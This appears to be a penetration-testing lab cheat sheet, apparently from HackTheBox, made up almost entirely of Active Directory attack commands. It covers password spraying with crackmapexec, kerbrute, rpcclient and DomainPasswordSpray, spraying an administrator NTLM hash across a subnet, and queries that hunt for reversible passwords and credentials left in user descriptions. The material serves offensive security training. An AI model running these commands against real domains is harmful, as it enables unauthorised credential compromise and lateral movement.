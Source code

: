 ```shell-session
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

Password spraying linux

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

Password spraying windows 
	https://github.com/dafthack/DomainPasswordSpray
```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

Admin account hash spraying host within domain
```shell-session
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

#### Account Attributes


Get common user attributes
```powershell-session
Get-ADUser -Identity htb-student
```

Group Details
```powershell-session
Get-ADGroup -Identity "Server Operators" -Properties *
```

Current User Privileges
```powershell-session
whoami /priv
```

Check for reversible password
```powershell-session
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

Check Description and Notes for Info
```powershell-session
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```
